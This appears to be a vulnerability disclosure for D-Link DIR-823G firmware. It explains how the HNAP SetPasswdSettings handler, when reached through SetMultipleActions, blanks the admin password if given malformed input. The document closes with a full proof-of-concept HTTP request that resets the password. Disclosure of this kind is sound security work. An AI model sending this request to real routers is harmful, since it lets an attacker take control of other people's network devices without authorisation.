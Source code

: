 # DIR823G_V1.0.2B05_20181207.bin Reset password vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

SetMultipleActions handler function will traverse the function list, and then query whether there is a matching function in the incoming data. When SetPasswdSettings exists, the SetPasswdSettings handler will be executed.

![](img/2.jpg#center)

SetPasswdSettings handler function 35 lines of code try to process the incoming password, if the processing fails, execute 53 lines of code to set the password to empty.

![](img/3.jpg#center)


## Vulnerability verify

![](img/4.gif#center)


## POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetMultipleActions"
HNAP_AUTH: 8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820
X-Requested-With: XMLHttpRequest
Content-Length: 550
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/SNTP.html
Cookie: uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetPasswdSettings xmlns="http://purenetworks.com/HNAP1/"><NewPassword>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA</NewPassword></SetPasswdSettings></SetMultipleActions></soap:Body></soap:Envelope>
```
